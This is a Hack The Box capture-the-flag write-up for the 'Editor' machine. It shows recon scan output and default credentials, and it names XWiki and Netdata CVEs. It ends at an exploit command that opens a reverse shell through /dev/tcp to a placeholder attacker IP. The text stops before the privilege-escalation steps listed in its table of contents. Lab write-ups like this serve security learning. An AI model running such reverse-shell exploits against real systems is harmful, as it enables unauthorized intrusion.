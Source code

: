 ##
# 📝 Write-up: Editor HTB

![editor](https://www.hackthebox.com/storage/avatars/7d4a6dfe5b291cbe7b4e13e5f5c4d6c3.png)

**Difficulty:** Easy  
**Platform:** Hack The Box  
**Link:** [Editor @ HTB](https://app.hackthebox.com/machines/Editor)

---

## 🎯 Summary
Editor is an **easy Linux machine** that involves:  
- Exploiting an **XWiki RCE** (CVE-2025-24893) for initial access  
- Leveraging **password reuse** for horizontal privilege escalation  
- Abusing a **Netdata SUID binary** (CVE-2024-32019) to get root  

---

## 📋 Table of Contents
1. [Reconnaissance](#-reconnaissance)  
2. [Enumeration](#-enumeration)  
3. [Exploitation: Initial Foothold](#-exploitation-initial-foothold)  
4. [Privilege Escalation: User](#-privilege-escalation-to-user)  
5. [Privilege Escalation: Root](#-privilege-escalation-to-root)  
6. [Lessons Learned](#-lessons-learned)  
7. [References](#-references)  

---

## 🔍 Reconnaissance

Started with a **full port scan** using `nmap`:

```bash
nmap -sC -sV -oA nmap/initial 10.10.11.80


PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express server)
3306/tcp open  mysql   MySQL 8.0.35-0ubuntu0.20.04.1
8000/tcp open  http    nginx 1.18.0 (Ubuntu)
9000/tcp open  http    Netdata Go.d.plugin 1.32.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
```

## 🕵️ Enumeration

### 🌐 Ports 80 / 8000 — HTTP Servers
- **Port 80** → Hosts a static page with project documentation.  
- **Port 8000** → Runs **XWiki 14.10.5**, a Java-based wiki platform.  

### ⚡ Port 3000 — Express Server
- Node.js application with login functionality.  
- Discovered **default credentials**: admin:admin

→ Grants access to project management dashboard.  

### 📊 Port 9000 — Netdata
- Running **Netdata 1.32.1** (real-time performance monitoring tool).  
- Vulnerable to **CVE-2024-32019** → SUID privilege escalation.  


## 🚀 Exploitation
###  CVE-2025-24893 - XWiki RCE
- Exploit Used: https://github.com/gunzf0x/CVE-2025-24893

bash ```
python3 exploit.py -t http://editor.htb:8080 -c 'bash -i >& /dev/tcp/<YOuR_IP>/4444 0>&1'
```
